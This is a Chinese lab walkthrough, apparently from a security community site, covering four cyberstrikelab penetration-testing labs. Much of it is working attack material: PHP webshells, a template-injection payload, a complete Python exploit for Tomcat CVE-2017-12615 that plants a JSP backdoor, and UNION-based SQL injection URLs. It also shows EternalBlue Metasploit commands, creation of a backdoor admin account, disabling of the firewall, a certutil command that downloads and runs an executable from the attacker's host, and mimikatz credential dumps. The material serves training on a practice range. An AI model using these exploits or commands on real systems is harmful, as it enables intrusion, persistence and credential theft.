# cyberstrikelab—lab1-7—WP-先知社区

> **来源**: https://xz.aliyun.com/news/16810  
> **文章ID**: 16810

---

# cyberstrikelab—lab1-7

# lab1

## 信息收集

```
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.0/24
start
start infoscan
(icmp) Target 192.168.10.10   is alive
(icmp) Target 192.168.10.233  is alive
[*] Icmp alive hosts len is: 2
192.168.10.10:139 open
192.168.10.10:3306 open
192.168.10.10:445 open
192.168.10.233:22 open
192.168.10.10:80 open
192.168.10.10:135 open
192.168.10.233:8080 open
2.2947085s
[*] alive ports len is: 7
start vulscan
[*] WebTitle https://192.168.10.233:8080 code:404 len:19     title:None
NetBios 192.168.10.10   WORKGROUP\WIN-KOHRC1DGOL9           Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.10.10      code:200 len:25229  title:易优CMS -  Powered by Eyoucms.com
[+] PocScan http://192.168.10.10 poc-yaml-thinkphp5023-method-rce poc1
```

## 第一台机器

​​

传入Webshell

```
<?php @eval($_REQUEST['a']);phpinfo();?>
```

​​

## Vshell搭建Socks5代理

​​

```
C:\ProgramData>fscan-gw.exe -h 192.168.20.0/24
start
start infoscan
(icmp) Target 192.168.20.10   is alive
(icmp) Target 192.168.20.20   is alive
(icmp) Target 192.168.20.30   is alive
[*] Icmp alive hosts len is: 3
192.168.20.10:139 open
192.168.20.30:135 open
192.168.20.30:88 open
192.168.20.30:3389 open
192.168.20.10:3306 open
192.168.20.30:445 open
192.168.20.20:445 open
192.168.20.10:445 open
192.168.20.30:139 open
192.168.20.20:139 open
192.168.20.20:135 open
192.168.20.10:135 open
192.168.20.10:80 open
2.0832114s
[*] alive ports len is: 13
start vulscan
[*] WebTitle http://192.168.20.10      code:200 len:25229  title:易优CMS -  Powered by Eyoucms.com
[*] NetInfo
[*]192.168.20.20
   [->]cyberweb
   [->]192.168.20.20
[*] NetInfo
[*]192.168.20.30
   [->]WIN-7NRTJO59O7N
   [->]192.168.20.30
NetBios 192.168.20.10   WORKGROUP\WIN-KOHRC1DGOL9           Windows Server 2012 R2 Standard 9600
[+] MS17-010 192.168.20.20      (Windows Server 2012 R2 Standard 9600)
[+] MS17-010 192.168.20.30      (Windows Server 2008 R2 Standard 7600)
NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[+] PocScan http://192.168.20.10 poc-yaml-thinkphp5023-method-rce poc1
```

## 第三台机器

​​

```
use auxiliary/admin/smb/ms17_010_command
set RHOSTS 192.168.20.30
set COMMAND type C:\flag.txt
run

set COMMAND 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
set COMMAND net user hack01 1324@cbD /add
set COMMAND net localgroup Administrators hack01 /add
set COMMAND netsh firewall set opmode disable
```

抓取hash

```
reg save HKLM\sam C:\Users\hack01\Desktop\sam.hive
reg save HKLM\system C:\Users\hack01\Desktop\system.hive
reg save HKLM\security C:\Users\hack01\Desktop\security.hive
mimikatz.x64.exe "privilege::debug" "lsadump::sam /sam:sam.hive /system:system.hive /security:security.hive" > pssword.txt
```

​​

```

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::sam /sam:sam.hive /system:system.hive /security:security.hive
Domain : WIN-7NRTJO59O7N
SysKey : 2f3adc383584c7064be7c1a96706198f
Local SID : S-1-5-21-3296014304-982381743-17833782

SAMKey : 419f3c8db9b73167c1277cbec995bb42

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: b6f16df11316ee8ef876e5d929f56517

RID  : 000001f5 (501)
User : Guest

mimikatz # 
```

抓到一个假的hash

## 第二台机器

### 上线CS

#### 第一层

设置监听

​​

生成后门

​​

运行上线

#### 第二层

转发上线

​​

生成后门

​​

利用第一台机器做跳板

```
http://192.168.10.10/beacon.exe
```

下载文件运行即可

#### 提权

使用巨龙拉冬的插件运行之前的后门程序即可

​​

### 抓取hash

​​

```
[02/09 12:10:19] beacon> hashdump
[02/09 12:10:19] [*] Tasked beacon to dump hashes
[02/09 12:10:19] [+] host called home, sent: 82541 bytes
[02/09 12:10:20] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5bc02b7670084dd30471730cc0a1672c:::
cyberweb:1105:aad3b435b51404eeaad3b435b51404ee:2de5cd0f15d1c070851d1044e1d95c90:::
hack01:1106:aad3b435b51404eeaad3b435b51404ee:c157e440a12221bf1facadd768c904b4:::
WIN-7NRTJO59O7N$:1000:aad3b435b51404eeaad3b435b51404ee:a0cde4eb68e4a2345b888c83eed3b196:::
CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:1be27659a8a89f8bf34d8edafece1e61:::
```

### PTH

```
proxychains4 -q python3 psexec.py -hashes :94bd5248e87cb7f2f9b871d40c903927 cyberstrikelab.com/administrator@192.168.20.20
```

​​

连接openvpn跳转到192.168.10.10，但是打不开，直接扫描192.168.10.10/24

# lab2

## 信息收集

```
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.10/24
start
start infoscan
(icmp) Target 192.168.10.10   is alive
(icmp) Target 192.168.10.20   is alive
(icmp) Target 192.168.10.233  is alive
[*] Icmp alive hosts len is: 3
192.168.10.10:445 open
192.168.10.20:445 open
192.168.10.233:22 open
192.168.10.10:135 open
192.168.10.10:3306 open
192.168.10.20:135 open
192.168.10.10:7680 open
192.168.10.10:139 open
192.168.10.20:139 open
192.168.10.233:8080 open
192.168.10.10:808 open
192.168.10.20:8009 open
192.168.10.20:8080 open
5.2554535s
[*] alive ports len is: 13
start vulscan
[*] NetInfo
[*]192.168.10.10
   [->]DESKTOP-JFB57A8
   [->]192.168.10.10
NetBios 192.168.10.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.10.20:8080 code:200 len:11432  title:Apache Tomcat/8.5.19
[*] WebTitle https://192.168.10.233:8080 code:404 len:19     title:None
[+] PocScan http://192.168.10.20:8080 poc-yaml-iis-put-getshell
[*] WebTitle http://192.168.10.10:808  code:200 len:20287  title:骑士PHP高端人才系统(www.74cms.com)
[+] PocScan http://192.168.10.20:8080 poc-yaml-tomcat-cve-2017-12615-rce
已完成 13/13
[*] 扫描结束,耗时: 59.1661612s
```

发现192.168.10.10，192.168.10.20和192.168.10.233存活

## 第一台机器

全端口扫描

​​

发现是74cms

通过枚举用户名，发现admin存在

​​

爆破密码的时候好像有问题，手动试一下弱口令发现是:admin123456

进入后台找到工具——风格模板——可用模板，抓包

​​

```
GET /index.php?m=admin&c=tpl&a=set&tpl_dir=default HTTP/1.1
Host: 192.168.10.10:808
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=50hr8h1sqhjtc9q7rhs2tl3po1; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.10:808/index.php?m=admin&c=tpl&a=index
Accept-Encoding: gzip, deflate
```

修改tpl\_dir

```
','a',eval($_POST['cmd']),'
```

访问/Application/Home/Conf/config.php

蚁剑连接

​​

## 第二台机器

​​

发现8080是tomcat服务，扫一下有没有Nday

​​

参考：<https://www.cnblogs.com/confidant/p/15440233.html>

​​

可以执行命令了，上传一句话木马连接

改一下上面的EXP

```
import requests
import optparse
import time


parse = optparse.OptionParser(usage = 'python3 %prog [-h] [-u URL] [-p PORT]')
parse.add_option('-u','--url',dest='URL',help='target url')
parse.add_option('-p','--port',dest='PORT',help='target port[default:8080]',default='8080')

options,args = parse.parse_args()
#验证参数是否完整
if not options.URL or not options.PORT:
        print('Usage:python3 CVE-2017-12615-POC.py [-u url] [-p port]
')
        exit('CVE-2017-12615-POC.py:error:missing a mandatory option(-u,-p).Use -h for basic and -hh for advanced help')

url = options.URL+':'+options.PORT
filename = '/backdoor.jsp'
payload = filename+'?pwd=023&i='

headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0"}
#木马
data = '''<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>'''
#上传木马文件
def upload(url):
  print('[*] 目标地址:'+url)
  try:
    respond = requests.put(url+filename+'/',headers=headers,data = data)
    #print(respond.status_code)
    if respond.status_code == 201 or respond.status_code == 204:
      #print('[*] 目标地址:'+url)
      print('[+] 木马上传成功')
  except Exception as e:
    print('[-] 上传失败')
    return 0

#命令执行
def attack(url,cmd):
  try:
    respond = requests.get(url+payload+cmd)
    if respond.status_code == 200:
      print(str(respond.text).replace("<pre>","").replace("</pre>","").strip())

  except Exception as e:
    print('[-] 命令执行错误')
if upload(url) == 0:
        exit()
time.sleep(0.5)
print('输入执行命令(quit退出):')
while(1):
  cmd = input('>>>')
  if(cmd == 'quit'):
    break
  attack(url,cmd)
```

地址:<http://192.168.10.20:8080/backdoor.jsp> 密码:passwd

​​

拿到第二个flag

```
go-flag{2a1AygwfTuccnNJY}
```

​​

发现无杀软环境

## Vshell搭建Socks5代理

上线Vshell

​​

## 第三台机器

```
C:\ProgramData> fscan-gw.exe -h 192.168.20.20/24
start infoscan
(icmp) Target 192.168.20.20   is alive
(icmp) Target 192.168.20.30   is alive
[*] Icmp alive hosts len is: 2
192.168.20.20:8009 open
192.168.20.30:88 open
192.168.20.20:8080 open
192.168.20.30:445 open
192.168.20.20:445 open
192.168.20.30:139 open
192.168.20.20:139 open
192.168.20.30:135 open
192.168.20.20:135 open
3.071292s
[*] alive ports len is: 9
start vulscan
[+] MS17-010 192.168.20.30    (Windows Server 2008 R2 Standard 7600)
[*] NetInfo 
[*]192.168.20.30
   [->]WIN-7NRTJO59O7N
   [->]192.168.20.30
[*] WebTitle http://192.168.20.20:8080 code:200 len:11432  title:Apache Tomcat/8.5.19
NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[+] PocScan http://192.168.20.20:8080 poc-yaml-iis-put-getshell 
[+] PocScan http://192.168.20.20:8080 poc-yaml-tomcat-cve-2017-12615-rce 
已完成 9/9
[*] 扫描结束,耗时: 8.4762642s
```

直接打永恒之蓝

```
proxychains -q msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 192.168.20.30
set lport 1433
exploit
```

​​

# lab3

## 信息收集

## 第一台机器

```
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.10/24
start
start infoscan
(icmp) Target 192.168.10.10   is alive
(icmp) Target 192.168.10.233  is alive
[*] Icmp alive hosts len is: 2
192.168.10.233:22 open
192.168.10.10:135 open
192.168.10.10:139 open
192.168.10.10:445 open
192.168.10.10:7680 open
192.168.10.10:3306 open
192.168.10.233:8080 open
3.0236639s
[*] alive ports len is: 7
start vulscan
[*] WebTitle https://192.168.10.233:8080 code:404 len:19     title:None
已完成 7/7
[*] 扫描结束,耗时: 44.0244365s

E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.10 -p 1-65535
start
start infoscan
192.168.10.10:139 open
192.168.10.10:135 open
192.168.10.10:445 open
192.168.10.10:161 open udp
192.168.10.10:3306 open
192.168.10.10:3590 open
192.168.10.10:5040 open
192.168.10.10:49664 open
192.168.10.10:49665 open
192.168.10.10:49666 open
192.168.10.10:49667 open
192.168.10.10:49668 open
192.168.10.10:49669 open
192.168.10.10:49670 open
4m21.806957s
[*] alive ports len is: 14
start vulscan
已完成 0/14 [-] Ms17010 192.168.10.10 read tcp 172.16.233.2:8546->192.168.10.10:445: wsarecv: An existing connection was forcibly closed by the remote host.
[*] WebTitle http://192.168.10.10:3590 code:200 len:4047   title:taoCMS演示
已完成 14/14
[*] 扫描结束,耗时: 4m57.8981522s
```

点击管理，进入后台登录界面

​​

弱口令admin::tao进入后台

​​

管理栏目——编辑——点击提交，抓包

```
POST /admin/admin.php HTTP/1.1
Host: 192.168.10.10:3590
Referer: http://192.168.10.10:3590/admin/admin.php?action=category&id=2&ctrl=edit
Cache-Control: max-age=0
Origin: http://192.168.10.10:3590
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: PHPSESSID=50hr8h1sqhjtc9q7rhs2tl3po1; think_language=zh-CN; think_template=default
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 174

name=%E6%97%A5%E8%AE%B0&nickname=&fid=&cattpl=&listtpl=&distpl=&intro=%E6%97%A5%E8%AE%B0%E6%9C%AC&orders=0&status=1&action=category&id=2&ctrl=update&Submit=%E6%8F%90%E4%BA%A4
```

指定注入点

```
sqlmap -r 1.txt -p id --batch --dbs
```

有延时注入

太慢了就不打这个了

​​

直接改主页，加入

```
@eval($_REQUEST['a']);phpinfo();
```

​​

​​

## Vshell搭建Socks5代理

​​

## 第二台机器

<https://github.com/theLSA/awBruter/tree/master>

直接爆破一句话木马的密码

​​

## 第三台机器

```
use auxiliary/admin/smb/ms17_010_command
set RHOSTS 192.168.20.30
set COMMAND type C:\flag.txt
run
```

​​

# lab4

## 信息收集

```
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.0/24
start
start infoscan
(icmp) Target 192.168.10.10   is alive
(icmp) Target 192.168.10.233  is alive
[*] Icmp alive hosts len is: 2
192.168.10.10:135 open
192.168.10.10:139 open
192.168.10.10:445 open
192.168.10.233:22 open
192.168.10.10:3306 open
192.168.10.233:8080 open
192.168.10.10:3389 open
192.168.10.10:7680 open
3.0247847s
[*] alive ports len is: 8
start vulscan
[*] WebTitle https://192.168.10.233:8080 code:404 len:19     title:None
已完成 7/8 [-] (50/207) rdp 192.168.10.10:3389 administrator a12345 remote error: tls: access denied
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.10 -p 1-65535
start
start infoscan
192.168.10.10:445 open
192.168.10.10:135 open
192.168.10.10:139 open
192.168.10.10:161 open udp
192.168.10.10:3306 open
192.168.10.10:3389 open
192.168.10.10:4444 open
192.168.10.10:5040 open
192.168.10.10:5820 open
192.168.10.10:7680 open
192.168.10.10:49664 open
192.168.10.10:49665 open
192.168.10.10:49666 open
192.168.10.10:49667 open
192.168.10.10:49668 open
192.168.10.10:49669 open
192.168.10.10:49670 open
4m2.6719037s
[*] alive ports len is: 17
start vulscan
已完成 0/17 [-] Ms17010 192.168.10.10 read tcp 172.16.233.2:9283->192.168.10.10:445: wsarecv: An existing connection was forcibly closed by the remote host.
[*] WebTitle http://192.168.10.10:5820 code:200 len:9243   title:演示网站 - Powered by BlueCMS
[+] InfoScan http://192.168.10.10:5820 [CMS]
```

## 第一台机器

发现有sql注入

```
http://192.168.10.10:5820/ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()

<!--
document.write("blue_ad,blue_ad_phone,blue_admin,blue_admin_log,blue_ann,blue_ann_cat,blue_arc_cat,blue_area,blue_article,blue_attachment,blue_buy_record,blue_card_order,blue_card_type,blue_category,blue_comment,blue_config,blue_flash_image,blue_guest_book,blue_ipbanned,blue_link,blue_model,blue_navigate,blue_pay,blue_post,blue_post_att,blue_post_pic,blue_service,blue_task,blue_user");
-->

http://192.168.10.10:5820/ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x626c75655f61646d696e

<!--
document.write("admin_id,admin_name,email,pwd,purview,add_time,last_login_time,last_login_ip");
-->

http://192.168.10.10:5820/ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,group_concat(admin_name,0x3a,pwd)%20from%20blue_admin

<!--
document.write("admin:a66abb5684c45962d887564f08346e8d");
-->
```

​​

得到密码admin123456

进入后台

​​

修改ann.htm为ann.php

```
http://192.168.10.10:5820/admin/tpl_manage.php?act=edit&tpl_name=ann.htm
```

​​

​​

```
GIF89a
<?php @eval($_REQUEST['a']);phpinfo();?>
```

​​

这里感觉是和封神台的一样，要win7+菜刀才能连接，7月份一个学校的作业题遇到过这种情况.....

直接上线Vshell

​​

```
http://192.168.10.10:5820/ann.php?a=system('certutil -urlcache -split -f http://172.16.233.2:8000/1.exe 1.exe');
http://192.168.10.10:5820/ann.php?a=system(%271.exe%27);
```

## Vshell搭建第一层代理

​​

## 第三台机器

上传fscan扫一下

```
C:\ProgramData>fscan-gw.exe -h 192.168.20.10/24
start
start infoscan
(icmp) Target 192.168.20.10   is alive
(icmp) Target 192.168.20.20   is alive
(icmp) Target 192.168.20.30   is alive
[*] Icmp alive hosts len is: 3
192.168.20.30:3389 open
192.168.20.20:139 open
192.168.20.10:139 open
192.168.20.30:135 open
192.168.20.20:135 open
192.168.20.10:135 open
192.168.20.30:88 open
192.168.20.10:7680 open
192.168.20.10:3389 open
192.168.20.10:3306 open
192.168.20.30:139 open
192.168.20.30:445 open
192.168.20.20:445 open
192.168.20.10:445 open
5.0684302s
[*] alive ports len is: 14
start vulscan
[*] NetInfo
[*]192.168.20.20
   [->]cyberweb
   [->]192.168.20.20
[+] MS17-010 192.168.20.30      (Windows Server 2008 R2 Standard 7600)
NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
```

继续全端口扫描

```
C:\ProgramData>fscan-gw.exe -h 192.168.20.20 -p 1-65535
start
start infoscan
192.168.20.20:445 open
192.168.20.20:139 open
192.168.20.20:135 open
192.168.20.20:161 open udp
192.168.20.20:5985 open
192.168.20.20:47001 open
192.168.20.20:49152 open
192.168.20.20:49155 open
192.168.20.20:49154 open
192.168.20.20:49153 open
192.168.20.20:49156 open
192.168.20.20:49157 open
192.168.20.20:49158 open
192.168.20.20:49159 open
3m49.1301945s
[*] alive ports len is: 14
start vulscan
NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[*] NetInfo
[*]192.168.20.20
   [->]cyberweb
   [->]192.168.20.20
[*] WebTitle http://192.168.20.20:5985 code:404 len:315    title:Not Found
[*] WebTitle http://192.168.20.20:47001 code:404 len:315    title:Not Found
已完成 14/14
[*] 扫描结束,耗时: 4m25.2459508s
```

没发现web端口打一下永恒之蓝

```
use auxiliary/admin/smb/ms17_010_command
set RHOSTS 192.168.20.30
set COMMAND type C:\flag.txt
run
```

​​

发现是域控，直接上去拿hash

## 第二台机器

开启3389，创建用户

```
set COMMAND 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
set COMMAND net user hack01 1324@cbD /add
set COMMAND net localgroup Administrators hack01 /add
```

远程连接遇到报错参考:<https://blog.csdn.net/Dancen/article/details/107334996>

上传mimikatz抓取hash

```

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 170030 (00000000:0002982e)
Session           : RemoteInteractive from 2
User Name         : hack01
Domain            : CYBERSTRIKELAB
Logon Server      : WIN-7NRTJO59O7N
Logon Time        : 2025/2/8 1:50:54
SID               : S-1-5-21-3614065708-1162526928-2578637-1106
    msv :
     [00000003] Primary
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * LM       : b77a5b5cad68e7ef4a3b108f3fa6cb6d
     * NTLM     : c157e440a12221bf1facadd768c904b4
     * SHA1     : 97fa0a91687d085a5dc0d4ef507a3210d6132030
    tspkg :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * Password : 1324@cbD
    wdigest :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * Password : 1324@cbD
    kerberos :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB.COM
     * Password : 1324@cbD
    ssp :
    credman :

Authentication Id : 0 ; 169996 (00000000:0002980c)
Session           : RemoteInteractive from 2
User Name         : hack01
Domain            : CYBERSTRIKELAB
Logon Server      : WIN-7NRTJO59O7N
Logon Time        : 2025/2/8 1:50:54
SID               : S-1-5-21-3614065708-1162526928-2578637-1106
    msv :
     [00000003] Primary
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * LM       : b77a5b5cad68e7ef4a3b108f3fa6cb6d
     * NTLM     : c157e440a12221bf1facadd768c904b4
     * SHA1     : 97fa0a91687d085a5dc0d4ef507a3210d6132030
    tspkg :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * Password : 1324@cbD
    wdigest :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * Password : 1324@cbD
    kerberos :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB.COM
     * Password : 1324@cbD
    ssp :
    credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN-7NRTJO59O7N$
Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/2/8 1:45:55
SID               : S-1-5-20
    msv :
     [00000003] Primary
     * Username : WIN-7NRTJO59O7N$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 7402b51514b6e31699ac77687c21d071
     * SHA1     : a10a507270d981f6f789987393f35406b5b7721e
    tspkg :
    wdigest :
     * Username : WIN-7NRTJO59O7N$
     * Domain   : CYBERSTRIKELAB
     * Password : a8 5d ac 5f a5 f1 ed cb 3a 34 41 7e 42 d1 9c e1 ce 7f da 82 aa 8a e2 b1 f1 d5 b9 a8 10 2d 80 77 55 c8 e2 1a 8f 6e 11 48 b3 c0 68 6b 83 b6 72 16 5c 71 cd c2 ce f5 ed cb 22 ac 6b ca 62 99 9a 76 22 2a 46 99 67 73 a3 c6 55 95 f0 55 42 20 1c 62 ba c5 f3 4f a9 c9 ab 82 d8 4a 12 3f e3 a3 65 74 4c a0 8b 26 b2 d7 7c 62 64 e4 d0 40 17 d9 53 94 b4 48 bb 2b 8f 4e a1 be be e0 b9 f2 5c 11 51 49 d6 71 6f 7b f8 40 76 a9 7b af 63 57 1e 7a bf bd 80 48 f4 c8 2a 21 7b c8 d7 68 9a b5 43 fb 90 b0 a6 ef 78 20 c8 e9 9b de fa 13 a0 8a 51 24 72 43 c4 46 dc 9e e7 88 0e 8a 0a 61 29 ac 79 86 d7 6f 8b 59 c3 89 bc 60 c2 bd 71 2b b9 2a 63 11 e8 12 09 da e3 b3 cc f2 43 60 5d 03 e5 2c 6d 0a 7c 50 02 b6 22 81 f8 dc 18 59 90 55 34 1d 29 6a b7 cb 
    kerberos :
     * Username : win-7nrtjo59o7n$
     * Domain   : CYBERSTRIKELAB.COM
     * Password : a8 5d ac 5f a5 f1 ed cb 3a 34 41 7e 42 d1 9c e1 ce 7f da 82 aa 8a e2 b1 f1 d5 b9 a8 10 2d 80 77 55 c8 e2 1a 8f 6e 11 48 b3 c0 68 6b 83 b6 72 16 5c 71 cd c2 ce f5 ed cb 22 ac 6b ca 62 99 9a 76 22 2a 46 99 67 73 a3 c6 55 95 f0 55 42 20 1c 62 ba c5 f3 4f a9 c9 ab 82 d8 4a 12 3f e3 a3 65 74 4c a0 8b 26 b2 d7 7c 62 64 e4 d0 40 17 d9 53 94 b4 48 bb 2b 8f 4e a1 be be e0 b9 f2 5c 11 51 49 d6 71 6f 7b f8 40 76 a9 7b af 63 57 1e 7a bf bd 80 48 f4 c8 2a 21 7b c8 d7 68 9a b5 43 fb 90 b0 a6 ef 78 20 c8 e9 9b de fa 13 a0 8a 51 24 72 43 c4 46 dc 9e e7 88 0e 8a 0a 61 29 ac 79 86 d7 6f 8b 59 c3 89 bc 60 c2 bd 71 2b b9 2a 63 11 e8 12 09 da e3 b3 cc f2 43 60 5d 03 e5 2c 6d 0a 7c 50 02 b6 22 81 f8 dc 18 59 90 55 34 1d 29 6a b7 cb 
    ssp :
    credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/2/8 1:45:55
SID               : S-1-5-19
    msv :
    tspkg :
    wdigest :
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    kerberos :
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 21627 (00000000:0000547b)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/2/8 1:45:51
SID               : 
    msv :
     [00000003] Primary
     * Username : WIN-7NRTJO59O7N$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 7402b51514b6e31699ac77687c21d071
     * SHA1     : a10a507270d981f6f789987393f35406b5b7721e
    tspkg :
    wdigest :
    kerberos :
    ssp :
    credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-7NRTJO59O7N$
Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/2/8 1:45:50
SID               : S-1-5-18
    msv :
    tspkg :
    wdigest :
     * Username : WIN-7NRTJO59O7N$
     * Domain   : CYBERSTRIKELAB
     * Password : a8 5d ac 5f a5 f1 ed cb 3a 34 41 7e 42 d1 9c e1 ce 7f da 82 aa 8a e2 b1 f1 d5 b9 a8 10 2d 80 77 55 c8 e2 1a 8f 6e 11 48 b3 c0 68 6b 83 b6 72 16 5c 71 cd c2 ce f5 ed cb 22 ac 6b ca 62 99 9a 76 22 2a 46 99 67 73 a3 c6 55 95 f0 55 42 20 1c 62 ba c5 f3 4f a9 c9 ab 82 d8 4a 12 3f e3 a3 65 74 4c a0 8b 26 b2 d7 7c 62 64 e4 d0 40 17 d9 53 94 b4 48 bb 2b 8f 4e a1 be be e0 b9 f2 5c 11 51 49 d6 71 6f 7b f8 40 76 a9 7b af 63 57 1e 7a bf bd 80 48 f4 c8 2a 21 7b c8 d7 68 9a b5 43 fb 90 b0 a6 ef 78 20 c8 e9 9b de fa 13 a0 8a 51 24 72 43 c4 46 dc 9e e7 88 0e 8a 0a 61 29 ac 79 86 d7 6f 8b 59 c3 89 bc 60 c2 bd 71 2b b9 2a 63 11 e8 12 09 da e3 b3 cc f2 43 60 5d 03 e5 2c 6d 0a 7c 50 02 b6 22 81 f8 dc 18 59 90 55 34 1d 29 6a b7 cb 
    kerberos :
     * Username : win-7nrtjo59o7n$
     * Domain   : CYBERSTRIKELAB.COM
     * Password : a8 5d ac 5f a5 f1 ed cb 3a 34 41 7e 42 d1 9c e1 ce 7f da 82 aa 8a e2 b1 f1 d5 b9 a8 10 2d 80 77 55 c8 e2 1a 8f 6e 11 48 b3 c0 68 6b 83 b6 72 16 5c 71 cd c2 ce f5 ed cb 22 ac 6b ca 62 99 9a 76 22 2a 46 99 67 73 a3 c6 55 95 f0 55 42 20 1c 62 ba c5 f3 4f a9 c9 ab 82 d8 4a 12 3f e3 a3 65 74 4c a0 8b 26 b2 d7 7c 62 64 e4 d0 40 17 d9 53 94 b4 48 bb 2b 8f 4e a1 be be e0 b9 f2 5c 11 51 49 d6 71 6f 7b f8 40 76 a9 7b af 63 57 1e 7a bf bd 80 48 f4 c8 2a 21 7b c8 d7 68 9a b5 43 fb 90 b0 a6 ef 78 20 c8 e9 9b de fa 13 a0 8a 51 24 72 43 c4 46 dc 9e e7 88 0e 8a 0a 61 29 ac 79 86 d7 6f 8b 59 c3 89 bc 60 c2 bd 71 2b b9 2a 63 11 e8 12 09 da e3 b3 cc f2 43 60 5d 03 e5 2c 6d 0a 7c 50 02 b6 22 81 f8 dc 18 59 90 55 34 1d 29 6a b7 cb 
    ssp :
    credman :

mimikatz # 
```

